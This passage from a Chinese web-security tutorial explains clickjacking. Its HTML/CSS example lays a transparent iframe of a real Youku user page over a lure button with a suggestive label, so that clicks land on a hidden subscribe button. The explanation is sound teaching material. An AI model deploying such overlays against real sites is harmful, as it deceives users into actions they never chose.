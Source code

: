 ## 三、点击劫持

点击劫持是一种视觉欺骗的攻击手段。攻击者将需要攻击的网站通过 iframe 嵌套的方式嵌入自己的网页中，并将 iframe 设置为透明，在页面中透出一个按钮诱导用户点击。

## 1. 特点

- 隐蔽性较高，骗取用户操作
- “UI-覆盖攻击”
- 利用iframe或者其它标签的属性

## 2. 点击劫持的原理

用户在登陆 A 网站的系统后，被攻击者诱惑打开第三方网站，而第三方网站通过 iframe 引入了 A 网站的页面内容，用户在第三方网站中点击某个按钮（被装饰的按钮），实际上是点击了 A 网站的按钮。
接下来我们举个例子：我在优酷发布了很多视频，想让更多的人关注它，就可以通过点击劫持来实现

```html
iframe {
width: 1440px;
height: 900px;
position: absolute;
top: -0px;
left: -0px;
z-index: 2;
-moz-opacity: 0;
opacity: 0;
filter: alpha(opacity=0);
}
button {
position: absolute;
top: 270px;
left: 1150px;
z-index: 1;
width: 90px;
height:40px;
}
</style>
......
<button>点击脱衣</button>
<img src="http://pic1.win4000.com/wallpaper/2018-03-19/5aaf2bf0122d2.jpg">
<iframe src="http://i.youku.com/u/UMjA0NTg4Njcy" scrolling="no"></iframe>
```



![img](https://pic2.zhimg.com/80/v2-f707cdf092aa93c96b584466cac8b69d_hd.jpg)



从上图可知，攻击者通过图片作为页面背景，隐藏了用户操作的真实界面，当你按耐不住好奇点击按钮以后，真正的点击的其实是隐藏的那个页面的订阅按钮，然后就会在你不知情的情况下订阅了。



![img](https://pic1.zhimg.com/80/v2-ad9ead59259fbb7a7cd5b271961e02d4_hd.jpg)

